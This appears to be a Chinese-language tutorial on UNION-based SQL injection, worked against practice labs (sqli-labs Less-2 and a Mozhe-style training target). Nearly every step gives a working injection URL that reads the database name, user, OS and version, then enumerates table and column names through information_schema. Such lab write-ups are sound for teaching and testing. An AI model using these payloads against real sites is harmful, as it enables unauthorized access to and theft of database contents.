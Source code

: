 #### 查询数据库名称

database()

```mysql
192.168.102.130:8888/Less-2/index.php?id=-1 union select database()
```

#### 查询数据库用户

user()

```mysql
192.168.102.130:8888/Less-2/index.php?id=-1 union select user()
```

#### 查询操作系统

@@version_compile_os

```mysql
192.168.102.130:8888/Less-2/index.php?id=-1 union select @@version_compile_os
```

比如注入时，发现第2、3个位置会回显，在这个2个位置查询用户和操作系统：

```mysql
192.168.102.130:8888/Less-2/index.php?id=-1 union select 1,user(),@@version_compile_os,4
```

![image-20220726112454906](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726112454906.png)

以及数据库名称和版本名称：

```mysql
192.168.102.130:8888/Less-2/index.php?id=-1 union select 1,database(),version(),4
```

![image-20220726143807180](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726143807180.png)

#### 查询指定数据库下的表名信息

根据刚才的信息收集，已知当前页面所操作的数据库名为mozhe_ Discuz_ stormGroup，借助`information_ schema`查询该数据库的所有表名：

```mysql
http://219.153.49.228:48354/new_list.php?id=-1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema= 'mozhe_ Discuz_stormGroup'
```

![image-20220726145018620](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726145018620.png)

得到表名之后要确定哪一个表存储着用户数据。

#### 查询指定表名下的列名

根据刚才收集的表名StormGroup_member，查询该表的所有列名：

```mysql
http://219.153.49.228:48354/new_list.php?id=-1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name= 'StormGroup_member'
```
